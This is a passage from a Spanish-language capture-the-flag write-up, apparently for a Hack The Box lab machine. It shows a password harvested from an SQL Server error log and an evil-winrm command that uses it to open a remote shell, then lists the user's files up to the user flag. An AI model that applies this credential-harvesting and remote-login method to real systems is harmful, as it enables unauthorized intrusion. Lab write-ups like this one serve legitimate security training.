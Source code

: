 ~~~powershell
<SNIP>
......
2022-11-18 13:43:07.44 spid51      Changed database context to 'master'.
2022-11-18 13:43:07.44 spid51      Changed language setting to us_english.
2022-11-18 13:43:07.44 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.72 spid51      Attempting to load library 'xpstar.dll' into memory. This is an informational message only. No user action is required.
......
<SNIP>
......
~~~
Lo que se puede sacar de esto es que parece existir efectivamente el usuario "Ryan.Cooper" y su posible contraseña sea "NuclearMosquito3". 
Entonces probando estas credenciales para iniciar sesion por winrm.
~~~bash
evil-winrm -i 10.10.11.202 -u 'Ryan.Cooper' -p 'NuclearMosquito3'              
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents>
~~~
Si se pudo obtener acceso, bastante simple de deducir a mi critetio.

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

### User Flag
Con acceso al usuario ryan, se puede ver que este presenta la user flag, asi que vamos por buen camino.
~~~ 
*Evil-WinRM* PS C:\Users\Ryan.Cooper> tree /f
Folder PATH listing
Volume serial number is EB33-4140
C:.
ÃÄÄÄ3D Objects
ÃÄÄÄContacts
ÃÄÄÄDesktop
³       user.txt
³
ÃÄÄÄDocuments
ÃÄÄÄDownloads
ÃÄÄÄFavorites
³   ³   Bing.url
³   ³
³   ÀÄÄÄLinks
ÃÄÄÄLinks
³       Desktop.lnk
³       Downloads.lnk
³
~~~